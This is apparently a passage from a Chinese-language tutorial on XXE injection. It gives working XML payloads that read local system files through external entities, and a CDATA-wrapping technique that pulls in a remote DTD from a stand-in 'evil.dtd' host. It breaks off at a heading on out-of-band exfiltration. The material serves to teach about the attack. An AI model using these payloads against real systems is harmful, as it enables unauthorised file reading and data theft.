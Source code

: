 payload：

```
//post传入到://input

<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]> 
<creds>&goodies;</creds>
```

但是如果读取的文件中包括有&,<,>,",'的字符时，会被xml解析器解析，报错从而导致读取失败那么如何解决呢？

**PCDATA**

PCDATA 指的是被解析的字符数据（Parsed Character Data）。

XML 解析器通常会解析 XML 文档中所有的文本。

**CDATA**

术语 CDATA 指的是不应由 XML 解析器进行解析的文本数据（Unparsed Character Data）。

在XML元素中，"<"和“&”是非法的，但是某些文本比如JavaScript代码包含大量的"<"和“&”字符。

为了避免错误，可以将脚本代码定义为CDATA。

CDATA 部分中的所有内容都会被解析器忽略。

CDATA 部分由 "<![CDATA[" 开始，由 "]]>" 结束

**因此思路就是把读取的文件放在CDATA之后在调用**

payload

需要将三个字符串实体使用参数实体拼接(不能在 xml 中进行拼接，而是需要在拼接以后再在 xml 中调用)

```xml-dtd
//POST DATA

<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 
<roottag>&all;</roottag>
```

```
//http://ip/evil.dtd

<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

### **2.无回显**--外带

xml.php
